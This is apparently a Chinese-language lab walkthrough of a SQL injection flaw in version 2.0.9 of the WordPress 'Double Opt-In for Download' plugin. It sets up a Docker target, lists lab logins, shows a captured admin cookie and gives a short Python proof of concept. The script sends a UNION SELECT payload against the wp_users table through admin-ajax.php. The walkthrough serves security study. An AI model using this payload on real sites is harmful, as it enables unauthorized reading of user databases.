 

### wordpress sql注入漏洞

`WordPress Double Opt-In for Download` 插件 2.0.9 版本中, `public/class-doifd.php` 文件中 `populate_download_edit_form` 函数中 `id` 参数未经过滤，直接拼接SQL 语句，导致 SQL 注入漏洞。

#### 启动靶场

```bash
docker pull medicean/vulapps:w_wordpress_1
docker run -d -p 6083:80 medicean/vulapps:w_wordpress_1
```

![image-20241105154141764](https://image.201068.xyz/assets/11.Wordpress/image-20241105154141764.png)

#### 访问

http://192.168.70.4:6083

![image-20241105154210847](https://image.201068.xyz/assets/11.Wordpress/image-20241105154210847.png)

#### 用账号密码登录

http://192.168.70.4:6083/wp-login.php

| 类型       | 用户名 | 密码     |
| ---------- | ------ | -------- |
| Mysql      | root   | root     |
| /wp-admin/ | admin  | admin123 |

![image-20241105154347507](https://image.201068.xyz/assets/11.Wordpress/image-20241105154347507.png)

#### 获取cookie

![image-20241105154507181](https://image.201068.xyz/assets/11.Wordpress/image-20241105154507181.png)

```bash
wordpress_7190a056b1cc7873906429f8cddddb02=admin%7C1732002252%7CfbYDZeETioZFLstg3UZ7ukpRKeBB2ReH1oUE82o0eHq%7Ca7de874c327c3c500b06846829da6c8b46a10b589d64708e86d280e5ee505239
```

#### poc.py

```bash
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# WordPress Double Opt-In for Download Plugin 2.0.9 - SQL Injection
# http://www.bugscan.net/source/plugin/4474/template/
# https://www.exploit-db.com/exploits/39896/


def assign(service, arg):
    if service == fingerprint.wordpress:
        return True, arg


def audit(arg):
    url = "%s/wp-admin/admin-ajax.php?action=populate_download_edit_form" % arg
    payload = "id=0 UNION SELECT md5(123),2,4,5,6,7,8 FROM wp_users WHERE ID=1"
    # 本插件需要登录，测试时添加的 Cookie 信息
    header = {
        "Cookie": "wordpress_7190a056b1cc7873906429f8cddddb02=admin%7C1732002252%7CfbYDZeETioZFLstg3UZ7ukpRKeBB2ReH1oUE82o0eHq%7Ca7de874c327c3c500b06846829da6c8b46a10b589d64708e86d280e5ee505239;"
    }
    code, head, html, redir, log = hackhttp.http(url, post=payload, headers=header)
```